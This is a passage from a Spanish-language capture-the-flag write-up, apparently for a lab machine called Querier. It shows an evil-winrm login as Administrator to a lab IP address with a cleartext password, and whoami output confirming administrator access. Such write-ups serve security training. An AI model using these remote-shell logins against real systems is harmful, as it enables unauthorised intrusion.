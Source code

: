 Nos `conectamos` como el usuario `Administrator` a la máquina víctima

```
# evil-winrm -i 10.129.255.12 -u 'Administrator' -p 'MyUnclesAreMarioAndLuigi!!1!'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
querier\administrator
```
